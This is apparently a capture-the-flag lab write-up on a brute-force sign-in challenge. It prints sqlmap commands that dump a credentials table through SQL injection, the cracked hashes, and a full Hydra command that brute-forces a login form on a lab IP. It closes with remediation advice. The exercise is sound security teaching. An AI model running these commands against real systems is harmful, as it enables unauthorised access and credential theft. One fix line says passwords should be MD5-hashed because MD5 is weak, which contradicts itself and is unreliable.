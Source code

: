 # Brute Force Sign In
- Method 1: Because members page was vulnerable to an sql injection attack we can enumerate databases for credentials.
- Method 2: Theres no limit to sign in requests so we can brute force it.

# Vulnerability Method 1
- After Executing the command __sqlmap -u "http://192.168.1.38/?page=member&id=1&Submit=Submit#" --dbs__ we notice a database named **Member_Brute_Force**
- This command __sqlmap -u "http://192.168.1.38/?page=member&id=1&Submit=Submit#" -D Member_Brute_Force --tables__ shows us a table named **db_default**
- This command __sqlmap -u "http://192.168.1.38/?page=member&id=1&Submit=Submit#" -D Member_Brute_Force -T db_default --dump__ dumps us enteries in that table.
- We can crack those password by running a Dictionary attack specifically 'md5_generic_passwd' provided by sqlmap.
- the result is as follows:
    Database: Member_Brute_Force
    Table: db_default
    [2 entries]
+----+----------+-------------------------------------------+
| id | username | password                                  |
+----+----------+-------------------------------------------+
| 1  | root     | 3bf1114a986ba87ed28fc1b5884fc2f8 (shadow) |
| 2  | admin    | 3bf1114a986ba87ed28fc1b5884fc2f8 (shadow) |
+----+----------+-------------------------------------------+
- Now we can access this website as admin and root.

# Vulnerability Method 2
- In our particular case, we know that the username admin exists, which will be our target.
- https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/top-passwords-shortlist.txt wordlist to use in this case.
- We can use Thc-Hydra: __sudo hydra <Username/List> <Password/List> <IP> <Method> "<Path>:<RequestBody>:S=<Success-html-text>"__
- In our case the command would be __sudo hydra -l admin -P /Darkly/04_brute_force_sign-in/Ressources/wordlist.txt 192.168.1.38 http-get-form "/:page=signin&username=admin&password=^PASS^&Login=Login:S=flag"__
- Result is => [80][http-get-form] host: 192.168.1.38   login: admin   password: shadow
- We can also use that for "root" user.
- Also the password is exposed because the form method is GET.
  
# Fix
- We can prevent SQL injections by using prepared statements and parameterized queries.
- Passwords should md5 encrypted because its a weak hashing algorithm.
- We can set limit to request sent by clients.
- We can use POST method when handling passwords and generaly handling form data to prevent exposure.